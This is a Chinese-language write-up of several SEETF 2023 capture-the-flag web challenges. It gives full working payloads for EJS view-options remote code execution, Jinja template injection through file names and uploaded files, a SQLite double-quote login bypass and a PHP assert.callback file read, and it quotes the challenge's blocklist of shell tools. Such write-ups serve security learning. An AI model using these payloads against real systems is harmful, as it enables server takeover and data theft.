# SEECTF 2023 writeup（Web）

关键字：ejs，php.ini，ini_set，sqlite3，ssti

ctftime：[https://ctftime.org/event/1828](https://ctftime.org/event/1828)

## Express JavaScript Security

核心代码

```javascript
app.get('/greet', (req, res) => {
    
    console.log(req.query);
    const data = JSON.stringify(req.query);
    console.log(data);

    if (BLACKLIST.find((item) => data.includes(item))) {
        return res.status(400).send('Can you not?');
    }

    return res.render('greet', {
        ...JSON.parse(data),
        cache: false
    });
});
```

题目构造很简单，使用的是最新版的ejs和express

```
"dependencies": {
  "express": "^4.18.2",
  "ejs": "^3.1.9"
},
```

我们可以给render塞任意参数，需要达到一个RCE的目的

debug运行一下程序，给render下一个断点，跟进一下代码



调用栈

```
render (\mnt\d\Desktop\security\ctf2023games\SEETF2023\dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909\node_modules\express\lib\application.js:571)
render (\mnt\d\Desktop\security\ctf2023games\SEETF2023\dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909\node_modules\express\lib\response.js:1039)
<anonymous> (\mnt\d\Desktop\security\ctf2023games\SEETF2023\dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909\main.js:29)
.............
```

看到一个merge函数，猜测存在原型链污染漏洞

这里的merge是`var merge = require('utils-merge');`导入的

经过测试发现并不能污染到原型





查看`utils-merge`中的函数，是直接进行拷贝，无法直接对原型进行修改



原型链污染这条路断了，我们继续看render的参数怎么工作



这里将传入的参数赋值给`data`

```
exports.renderFile (\mnt\d\Desktop\security\ctf2023games\SEETF2023\dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909\node_modules\ejs\lib\ejs.js:475)
render (\mnt\d\Desktop\security\ctf2023games\SEETF2023\dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909\node_modules\express\lib\view.js:135)
tryRender (\mnt\d\Desktop\security\ctf2023games\SEETF2023\dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909\node_modules\express\lib\application.js:657)
render (\mnt\d\Desktop\security\ctf2023games\SEETF2023\dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909\node_modules\express\lib\application.js:609)
render (\mnt\d\Desktop\security\ctf2023games\SEETF2023\dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909\node_modules\express\lib\response.js:1039)
<anonymous> (\mnt\d\Desktop\security\ctf2023games\SEETF2023\dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909\main.js:29)
.............
```

这里如果 `data.settings['view options']` 存在值，则会将 `data.settings['view options']` 的值拷贝给`opts`



继续跟进代码，`opts`的值会传递给`options`



```
Template (\mnt\d\Desktop\security\ctf2023games\SEETF2023\dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909\node_modules\ejs\lib\ejs.js:510)
compile (\mnt\d\Desktop\security\ctf2023games\SEETF2023\dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909\node_modules\ejs\lib\ejs.js:397)
handleCache (\mnt\d\Desktop\security\ctf2023games\SEETF2023\dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909\node_modules\ejs\lib\ejs.js:235)
tryHandleCache (\mnt\d\Desktop\security\ctf2023games\SEETF2023\dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909\node_modules\ejs\lib\ejs.js:274)
exports.renderFile (\mnt\d\Desktop\security\ctf2023games\SEETF2023\dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909\node_modules\ejs\lib\ejs.js:491)
render (\mnt\d\Desktop\security\ctf2023games\SEETF2023\dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909\node_modules\express\lib\view.js:135)
tryRender (\mnt\d\Desktop\security\ctf2023games\SEETF2023\dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909\node_modules\express\lib\application.js:657)
render (\mnt\d\Desktop\security\ctf2023games\SEETF2023\dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909\node_modules\express\lib\application.js:609)
render (\mnt\d\Desktop\security\ctf2023games\SEETF2023\dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909\node_modules\express\lib\response.js:1039)
<anonymous> (\mnt\d\Desktop\security\ctf2023games\SEETF2023\dist_express-javascript-security_31d3740ae934682d8c36d3a3182c29981e0c9909\main.js:29)
.............
```

然后继续传递到compile



这里就是比较熟悉的原型链污染触发的地方，所有我们可以通过设置`data.settings['view options']`的值来控制`opts`，进而控制`options`，达到和原型链污染差不多的效果

存在黑名单

```javascript
const BLACKLIST = [
    "outputFunctionName",
    "escapeFunction",
    "localsName",
    "destructuredLocals"
]
```

参考：[https://www.anquanke.com/post/id/236354#h2-2](https://www.anquanke.com/post/id/236354#h2-2) 的链子

```json
{"__proto__":{"__proto__":{"client":true,"escapeFunction":"1; return global.process.mainModule.constructor._load('child_process').execSync('dir');","compileDebug":true,"debug":true}}}
```

观察`Template`，我们发现通过设置`opts.escape`的值来设置`options.escapeFunction`，来绕过黑名单

```javascript
opts = opts || utils.createNullProtoObjWherePossible();
var options = utils.createNullProtoObjWherePossible();
this.templateText = text;
/** @type {string | null} */
this.mode = null;
this.truncate = false;
this.currentLine = 1;
this.source = '';
options.client = opts.client || false;
options.escapeFunction = opts.escape || opts.escapeFunction || utils.escapeXML;
options.compileDebug = opts.compileDebug !== false;
options.debug = !!opts.debug;
options.filename = opts.filename;
options.openDelimiter = opts.openDelimiter || exports.openDelimiter || _DEFAULT_OPEN_DELIMITER;
options.closeDelimiter = opts.closeDelimiter || exports.closeDelimiter || _DEFAULT_CLOSE_DELIMITER;
options.delimiter = opts.delimiter || exports.delimiter || _DEFAULT_DELIMITER;
options.strict = opts.strict || false;
options.context = opts.context;
options.cache = opts.cache || false;
options.rmWhitespace = opts.rmWhitespace;
options.root = opts.root;
options.includer = opts.includer;
options.outputFunctionName = opts.outputFunctionName;
options.localsName = opts.localsName || exports.localsName || _DEFAULT_LOCALS_NAME;
options.views = opts.views;
options.async = opts.async;
options.destructuredLocals = opts.destructuredLocals;
options.legacyInclude = typeof opts.legacyInclude != 'undefined' ? !!opts.legacyInclude : true;
```

最终payload

```
/greet?settings[view options][escape]=1; return global.process.mainModule.constructor._load('child_process').execSync('/readflag');&settings[view options][client]=true&settings[view options][compileDebug]=true&settings[view options][debug]=true
```



拼接代码，任意代码执行





## file uploader 1

存在漏洞点

如果`fileext`不在白名单中，会将文件名拼接到`template`中然后渲染返回

```python
@app.route('/upload', methods=['GET', 'POST'])
def upload_file():
    if request.method != 'POST':
        return redirect(url_for('profile'))
    
    # check if the post request has the file part
    if 'file' not in request.files:
            return redirect(url_for('profile'))
    file = request.files['file']

    # If the user does not select a file, the browser submits an empty file without a filename.
    if file.filename == '':
        return redirect(url_for('profile'))
    
    fileext = get_fileext(file.filename)

    file.seek(0, 2) # seeks the end of the file
    filesize = file.tell() # tell at which byte we are
    file.seek(0, 0) # go back to the beginning of the file

    if fileext and filesize < 10*1024*1024:
        if session['ext'] and os.path.exists(os.path.join(UPLOAD_FOLDER, session['uuid']+"."+session['ext'])):
            os.remove(os.path.join(UPLOAD_FOLDER, session['uuid']+"."+session['ext']))
        session['ext'] = fileext
        filename = session['uuid']+"."+session['ext']
        file.save(os.path.join(UPLOAD_FOLDER, filename))
        return redirect(url_for('profile'))
    else:
        template = f"""
            {file.filename} is not valid because it is too big or has the wrong extension
        """
        l1 = ['+', '{{', '}}', '[2]', 'flask', 'os','config', 'subprocess', 'debug', 'read', 'write', 'exec', 'popen', 'import', 'request', '|', 'join', 'attr', 'globals', '\\'] 

        l2 = ['aa-exec', 'agetty', 'alpine', 'ansible-playbook', 'ansible-test', 'aoss', 'apt', 'apt-get', 'aria2c', 'arj', 'arp', 'ascii-xfr', 'ascii85', 'ash', 'aspell', 'atobm', 'awk', 'aws', 'base', 'base32', 'base58', 'base64', 'basenc', 'basez', 'bash', 'batcat', 'bconsole', 'bpftrace', 'bridge', 'bundle', 'bundler', 'busctl', 'busybox', 'byebug', 'bzip2', 'c89', 'c99', 'cabal', 'cancel', 'capsh', 'cat', 'cdist', 'certbot', 'check_by_ssh', 'check_cups', 'check_log', 'check_memory', 'check_raid', 'check_ssl_cert', 'check_statusfile', 'chmod', 'choom', 'chown', 'chroot', 'cmp', 'cobc', 'column', 'comm', 'comm ', 'composer', 'cowsay', 'cowthink', 'cpan', 'cpio', 'cpulimit', 'crash', 'crontab', 'csh', 'csplit', 'csvtool', 'cupsfilter', 'curl', 'cut', 'dash', 'date', 'debug', 'debugfs', 'dialog', 'diff', 'dig', 'dir', 'distcc', 'dmesg', 'dmidecode', 'dmsetup', 'dnf', 'docker', 'dos2unix', 'dosbox', 'dotnet', 'dpkg', 'dstat', 'dvips', 'easy_install', 'echo', 'efax', 'elvish', 'emacs', 'env', 'eqn', 'espeak', 'exiftool', 'expand', 'expect', 'facter', 'file', 'find', 'finger', 'fish', 'flock', 'fmt', 'fold', 'fping', 'ftp', 'gawk', 'gcc', 'gcloud', 'gcore', 'gdb', 'gem', 'genie', 'genisoimage', 'ghc', 'ghci', 'gimp', 'ginsh', 'git', 'grc', 'grep', 'gtester', 'gzip', 'head', 'hexdump', 'highlight', 'hping3', 'iconv', 'ifconfig', 'iftop', 'install', 'ionice', 'irb', 'ispell', 'jjs', 'joe', 'join', 'journalctl', 'jrunscript', 'jtag', 'julia', 'knife', 'ksh', 'ksshell', 'ksu', 'kubectl', 'latex', 'latexmk', 'ld.so', 'ldconfig', 'less', 'less ', 'lftp', 'loginctl', 'logsave', 'look', 'ltrace', 'lua', 'lualatex', 'luatex', 'lwp-download', 'lwp-request', 'mail', 'make', 'man', 'mawk', 'more', 'mosquitto', 'mount', 'msfconsole', 'msgattrib', 'msgcat', 'msgconv', 'msgfilter', 'msgmerge', 'msguniq', 'mtr', 'multitime', 'mysql', 'nano', 'nasm', 'nawk', 'ncftp', 'neofetch', 'netstat', 'nft', 'nice', 'nmap', 'node', 'nohup', 'npm', 'nroff', 'nsenter', 'nslookup', 'octave', 'openssl', 'openvpn', 'openvt', 'opkg', 'pandoc', 'paste', 'pax', 'pdb', 'pdflatex', 'pdftex', 'perf', 'perl', 'perlbug', 'pexec', 'php', 'pic', 'pico', 'pidstat', 'ping', 'pip', 'pkexec', 'pkg', 'posh', 'pry', 'psftp', 'psql', 'ptx', 'puppet', 'pwsh', 'rake', 'readelf', 'red', 'redcarpet', 'redis', 'restic', 'rev', 'rlogin', 'rlwrap', 'route', 'rpm', 'rpmdb', 'rpmquery', 'rpmverify', 'rsync', 'rtorrent', 'ruby', 'run-mailcap', 'run-parts', 'rview', 'rvim', 'sash', 'scanmem', 'scp', 'screen', 'script', 'scrot', 'sed', 'service', 'setarch', 'setfacl', 'setlock', 'sftp', 'shuf', 'slsh', 'smbclient', 'snap', 'socat', 'socket', 'soelim', 'softlimit', 'sort', 'split', 'sqlite3', 'sqlmap', 'ssh', 'ssh-agent', 'ssh-keygen', 'ssh-keyscan', 'sshpass', 'start-stop-daemon', 'stdbuf', 'strace', 'strings', 'sysctl', 'systemctl', 'systemd-resolve', 'tac', 'tail', 'tar', 'task', 'taskset', 'tasksh', 'tbl', 'tclsh', 'tcpdump', 'tdbtool', 'tee', 'telnet', 'tex', 'tftp', 'time', 'timedatectl', 'timeout', 'tmate', 'tmux', 'top', 'torify', 'torsocks', 'touch', 'traceroute', 'troff', 'truncate', 'tshark', 'unexpand', 'uniq', 'unshare', 'unzip', 'update-alternatives', 'uudecode', 'uuencode', 'vagrant', 'valgrind', 'view', 'vigr', 'vim', 'vimdiff', 'vipw', 'virsh', 'volatility', 'w3m', 'wall', 'watch', 'wget', 'whiptail', 'whois', 'wireshark', 'wish', 'xargs', 'xdotool', 'xelatex', 'xetex', 'xmodmap', 'xmore', 'xpad', 'xxd', 'yarn', 'yash', 'yelp', 'yum', 'zathura', 'zip', 'zsh', 'zsoelim', 'zypper']
        

        for i in l1:
            if i in template.lower():
                print(template, i, file=sys.stderr)
                template = "nice try"
                break
        matches = re.findall(r"['\"](.*?)['\"]", template)
        for match in matches:
            print(match, file=sys.stderr)
            if not re.match(r'^[a-zA-Z0-9 \/\.\-]+$', match):
                template = "nice try"
                break
            for i in l2:
                if i in match.lower():
                    print(i, file=sys.stderr)
                    template = "nice try"
                    break
        return render_template_string(template)
```

绕过他的黑名单即可

参考：[https://xz.aliyun.com/t/9584#toc-3](https://xz.aliyun.com/t/9584#toc-3)

fuzz类的索引

```python
import requests

url = 'http://172.21.28.13:29384/upload'
headers = {
    'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundarymTsANkoKLXBfBT6f',
    'Cookie': 'session=eyJleHQiOm51bGwsInV1aWQiOiJmY2RmNmE3Yi05ODE1LTQwMWYtYjg1Yy04Y2Y2NDIwZGRiZDAifQ.ZIYSxA.aOmD_eFJ9hZm2YAJdrdH5Ttw15o'
}

payload = ''
for i in range(300):
    payload = ''
    data = f'''------WebKitFormBoundarymTsANkoKLXBfBT6f
Content-Disposition: form-data; name="file"; filename="{payload}"
Content-Type: text/plain

import re

------WebKitFormBoundarymTsANkoKLXBfBT6f--
'''

    response = requests.post(url, headers=headers, data=data)
    if "_frozen_importlib_external.FileLoader" in response.text:
        print(response.text)
        print(data)
        break
```

读取`flag.txt`

```
POST /upload HTTP/1.1
Host: fu1.web.seetf.sg:1337
Content-Length: 268
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://fu1.web.seetf.sg:1337
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfagSoQabs4E19Bx8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/xml,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://fu1.web.seetf.sg:1337/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=eyJleHQiOm51bGwsInV1aWQiOiJhNWExZDRiNC1jMWM3LTQ2YjctYjgxYy0xYjE2YTU0NzE1YmUifQ.ZIYRIw.Se2LPlx0m2oSU42i8_Mz0VjC6kw
Connection: close

------WebKitFormBoundaryfagSoQabs4E19Bx8
Content-Disposition: form-data; name="file"; filename=""
Content-Type: text/plain

import re


------WebKitFormBoundaryfagSoQabs4E19Bx8--
```



## file uploader 2

存在漏洞的地方

会渲染我们上传的文件

```python
@app.route('/uploads/<path:path>')
def viewfile(path):
    if session['filename'] == path:
        try:
            return render_template('static'+'/'+path)
        except:
            return send_from_directory(UPLOAD_FOLDER, path)

    else:
        return redirect(url_for('profile'))
```

我们只需要构造恶意内容文件，将其上传即可进行类似ssti的操作

```
{{g.pop.__globals__.__builtins__['__import__']('os').popen('cat i*').read()}}
```

但是在上传文件之前，需要我们进行登录，进行sql查询之前对query进行拼接，但是限制了传入的字符串只能包含大小写字母，数字，花括号，下划线。不能通过闭合引号来进行注入

```python
@app.route('/', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        pattern = r'[^a-zA-Z0-9{_}]'
        if re.search(pattern, username) or re.search(pattern, password):
            return render_template('login.html', error='Sus input detected!')
        
        query = f'SELECT * FROM users WHERE dXNlcm5hbWVpbmJhc2U2NA = "{username}" AND cGFzc3dvcmRpbmJhc2U2NA = "{password}";'
        try:
            if cur.execute(query).fetchone():
                print("Login successful!")
                session['usersess'] = str(uuid.uuid4())
                session['filename'] = None
                return redirect(url_for('profile'))
            else:
                raise Exception('Invalid Credentials. Please try again.')
        except:
            error = 'Invalid Credentials. Please try again.'
            return render_template('login.html', error=error)
    else:
        return render_template('login.html')
```

有意思的是在 `sqlite3` 中，单引号和双引号具有不同的含义，一个指的是一个字符串，另一个指的是一个标识符，一个标识符可以是一个列名，所以它变成像列名=列名

[https://www.sqlite.org/lang_keywords.html](https://www.sqlite.org/lang_keywords.html)



只要我们输入的账号密码和`users`的字段名对上了即可。

登录成功后，上传文件，然后访问文件即可触发`ssti`执行任意命令

```
登录：password=cGFzc3dvcmRpbmJhc2U2NA&username=dXNlcm5hbWVpbmJhc2U2NA

echo "{{g.pop.__globals__.__builtins__['__import__']('os').popen('cat i*').read()}}" > 5744f76c-33cd-48d9-8305-8893d0c5b2e1.png

上传图片，访问 uploads/5744f76c-33cd-48d9-8305-8893d0c5b2e1.png 触发ssti
```



## Sourceful Guessless Web

本地搭建环境



在这题中我们可以进行任意次的`ini_set($key, $value);`

设置一个phpinfo();

看一下php的配置

刚开始看的是

**auto_prepend_file**

**auto_append_file**

发现这两个配置不能通过`ini_set`设置



后面往`log`这方面看，发现可以设置日志文件，但是并没有产生日志文件，并且网站目录root可写，文件落地方案失败

继续往下看 看到 `pcre` 方面，可以设置**pcre.backtrack_limit**和**pcre.recursion_limit**

不认识的配置项直接问chatgpt（很省时间）

```
pcre.recursion_limit是什么

ChatGPT
pcre.recursion_limit是一个配置项，它用于限制PCRE（Perl Compatible Regular Expressions）引擎在匹配过程中的递归深度。

PCRE是一个功能强大的正则表达式库，广泛用于各种编程语言中，例如PHP。在使用PCRE引擎进行正则表达式匹配时，有些复杂的模式可能会导致递归的发生，即正则表达式引擎在尝试匹配时会自动进入嵌套的子调用。

pcre.recursion_limit配置项用于限制这种递归的深度，以避免在处理过程中出现无限递归的情况。它指定了PCRE引擎在匹配过程中可以进行的最大递归层数。如果达到了该限制，引擎会中止匹配并返回一个错误。

通过调整pcre.recursion_limit的值，可以控制PCRE引擎在匹配过程中所允许的递归深度，以满足具体的需求和安全性考虑。不同的语言和环境可能有不同的默认值和最大值限制。
```

我们可以通过设置`pcre.recursion_limit`的值来限制递归深度，我们将其设置为0，则`preg_match`就会出错，断言失败



没什么用，我们继续往下翻配置



发现`assert.callback` 另一个关键配置

```
assert.callback 是一个 PHP 配置选项，用于指定一个回调函数，在断言失败时被调用。断言是一种用于检查代码正确性的技术，通常用于在开发和测试过程中检测代码中的错误和异常情况。在 PHP 中，断言可以通过 assert() 函数来实现。

当 assert() 函数检查到一个失败的断言时，如果设置了 assert.callback 选项，则会调用指定的回调函数，并将断言的信息作为参数传递给它。回调函数可以是一个 PHP 函数或方法的名称，也可以是一个匿名函数。
```

设置`assert.callback`我们的函数成功被执行，并且第一个参数是文件名，已知flag是以字符串的形式存在`index.php`中，我们可以通过读取`index.php`来读取flag。



还有一个限制就是函数的参数类型需要大于等于3，否则会报错，如`highlight_file`



通过翻文档的文件操作函数列表发现

```
readfile(string $filename, bool $use_include_path = false, ?resource $context = null): int|false
```



最后构造

```
?flag=SEE{FAKE_FLAG}&debug=a&config[pcre.backtrack_limit]=0&config[assert.callback]=readfile
```


